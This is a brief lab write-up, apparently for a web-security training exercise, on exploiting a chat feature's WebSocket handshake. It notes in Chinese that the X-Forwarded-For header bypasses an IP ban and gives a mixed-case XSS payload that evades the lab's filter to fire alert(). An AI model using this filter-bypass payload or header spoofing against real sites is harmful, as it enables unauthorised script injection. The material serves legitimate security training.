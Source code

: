 # Lab: Manipulating the WebSocket handshake to exploit vulnerabilities

This online shop has a live chat feature implemented using WebSockets.

It has an aggressive but flawed XSS filter.

To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser.

* If you're struggling to bypass the XSS filter, try out our XSS labs.
* Sometimes you can bypass IP-based restrictions using HTTP headers like X-Forwarded-For.

## WebSockets
* 題目說有 XSS filter 跟 ban ip，所以要稍微 bypass 一下，用 `X-Forwarded-For` 就可以 bypass ban ip 的部份
```
payload = </td><img src=# oNeRrOr=alert`1`>
```